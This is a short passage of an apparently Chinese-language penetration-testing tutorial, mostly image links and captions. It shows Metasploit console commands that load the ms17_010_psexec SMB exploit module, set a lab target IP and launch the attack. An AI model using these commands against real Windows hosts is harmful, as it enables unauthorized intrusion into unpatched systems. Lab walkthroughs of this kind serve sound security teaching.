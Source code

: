 [![](assets/1701606737-ce6117e7f3146bb43e0ed1978731735d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234014-c7388378-7cba-1.png)

设置远程目标IP

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 192.168.1.9
```

查看攻击目标模式

[![](assets/1701606737-c819575d3f167f9e6eda8076b5dab791.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234136-f81df7a2-7cba-1.png)

攻击

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > run
or
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
